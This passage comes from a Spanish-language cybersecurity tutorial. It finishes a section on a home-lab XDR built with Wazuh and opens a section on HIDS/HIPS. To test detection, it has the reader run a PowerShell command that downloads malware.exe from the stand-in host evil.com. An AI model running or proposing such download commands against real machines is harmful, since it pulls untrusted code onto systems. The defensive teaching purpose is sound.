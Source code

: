 #### 🧪 Simular actividad sospechosa

1. En Windows, abre CMD y corre:

```cmd
powershell -c "Invoke-WebRequest http://evil.com/malware.exe -OutFile mal.exe"
```

2. Wazuh detecta:

   - Powershell usado para conexión externa
   - Nuevo archivo ejecutable creado
   - Actividad de red anómala

3. En el dashboard verás una alerta con el detalle.

---

#### ✅ Resultado final

- Tienes visibilidad de endpoints (Windows/Linux)
- Detectas comandos peligrosos, procesos, tráfico malicioso
- Todo centralizado como un XDR básico

---

### 📚 Conclusión

**XDR** es una evolución natural en la ciberseguridad moderna. Ofrece:

✅ Visibilidad centralizada

✅ Respuesta automatizada

✅ Detección más precisa al correlacionar eventos

✅ Reduce el tiempo de respuesta y los falsos positivos

Para entornos caseros o de laboratorio, puedes montar un mini-XDR con **Wazuh**, **OSQuery**, **Zeek** y **Elastic Stack**. Para entornos empresariales, Microsoft Defender XDR o CrowdStrike son opciones líderes.

---

[🔼](#índice)

---

## **539. Host Intrusion Detection/Prevention System (HIDS/HIPS)**

### 🧠 ¿Qué es HIDS/HIPS?

#### 🔎 HIDS — _Host-based Intrusion Detection System_

Es un **sistema de detección de intrusiones basado en el host**, que:

- Monitorea **actividades sospechosas** en un sistema operativo.
- No bloquea, solo **detecta y alerta**.
- Funciona como un **vigilante**: observa logs, archivos críticos, procesos, conexiones, etc.
